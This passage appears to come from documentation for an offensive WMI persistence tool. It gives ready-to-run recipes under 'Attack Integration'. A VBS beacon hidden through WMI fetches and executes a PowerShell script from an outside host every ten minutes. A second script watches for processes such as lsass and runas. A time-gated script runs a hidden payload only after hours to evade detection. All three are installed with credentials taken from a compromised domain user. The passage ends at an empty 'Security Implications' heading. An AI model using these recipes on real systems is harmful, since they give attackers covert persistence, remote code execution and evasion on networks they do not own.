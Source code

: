 ## Attack Integration

### Post-Exploitation Persistence
```bash
# Establish beaconing persistence after initial compromise
cat > beacon.vbs << 'EOF'
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -WindowStyle Hidden -Command ""IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/beacon.ps1')""", 0, False
EOF

python3 wmipersist.py domain.com/compromised_user:password@192.168.1.100 install \
  -name C2Beacon -vbs beacon.vbs -timer 600000  # Every 10 minutes
```

### Privilege Escalation Monitoring
```bash
# Monitor for privilege escalation opportunities
cat > privesc_monitor.vbs << 'EOF'
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -WindowStyle Hidden -Command ""Get-Process | Where-Object {$_.ProcessName -match 'lsass|winlogon|services'} | Out-File C:\Windows\Temp\priv_procs.txt -Append""", 0, False
EOF

python3 wmipersist.py domain.com/user:password@192.168.1.100 install \
  -name PrivEscMon -vbs privesc_monitor.vbs \
  -filter 'SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA "Win32_Process" AND (TargetInstance.Name = "runas.exe" OR TargetInstance.Name = "psexec.exe")'
```

### Defense Evasion
```bash
# Execute during specific time windows to avoid detection
cat > time_based.vbs << 'EOF'
Dim currentHour
currentHour = Hour(Now())
If currentHour >= 18 Or currentHour <= 6 Then
    Dim objShell
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell.exe -WindowStyle Hidden -Command ""Your-Payload-Here""", 0, False
End If
EOF

# Install with timer to check time conditions
python3 wmipersist.py domain.com/admin:password@192.168.1.100 install \
  -name TimeBasedPersist -vbs time_based.vbs -timer 3600000  # Check every hour
```

## Security Implications
